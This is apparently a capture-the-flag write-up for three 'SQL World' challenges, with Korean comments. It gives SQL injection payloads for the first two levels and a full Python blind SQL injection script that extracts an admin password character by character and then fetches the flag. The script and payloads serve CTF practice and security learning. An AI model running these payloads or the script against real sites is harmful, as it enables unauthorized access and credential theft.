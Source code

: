 # SQL World

# SQL World 1

**pw=’||1%23**

![Untitled](https://user-images.githubusercontent.com/37824335/223043838-252fb5a6-be8f-453a-bb10-6cb2054f07d5.png)

# SQL World2

**pw=%27//union//select/**/1%23**

![Untitled 1](https://user-images.githubusercontent.com/37824335/223043851-d5501a11-6ab0-4a72-827e-4b9b7beb823b.png)

# SQL World3

```python
import requests
import string

url = "http://web.isangxcaution.xyz:20300/sql3.php"

params = {
    'pw' : ''
}

# 비밀번호 길이 구하기
pw_len = 0
for i in range(1,20):
    params['pw'] = f"' or length(pw)={i}#"
    response = requests.get(url,params=params)
    if(response.text.count("Admin") == 4):
        pw_len = i
        print(f"pw_len : {pw_len}")
        break

# 비밀번호 구하기
pw = ''
for idx in range(1,pw_len+1):
    for char in string.printable:
        int_char = str(ord(char))
        params['pw'] = f"' or ascii(substr(pw,{idx},1))={int_char}#"
        response = requests.get(url,params=params)
        if(response.text.count("Admin") == 4):
            print(params)
            pw += char
            print(f"pw: {pw}")
            break

# 플래그 구하기
params["pw"] = pw
response  = requests.get(url,params=params)
idx = response.text.find('IxC')
print(response.text[idx:idx+34])
```

실행 결과

![Untitled 2](https://user-images.githubusercontent.com/37824335/223043889-c189c006-584d-427e-8d52-acc0c17a8e2d.png)
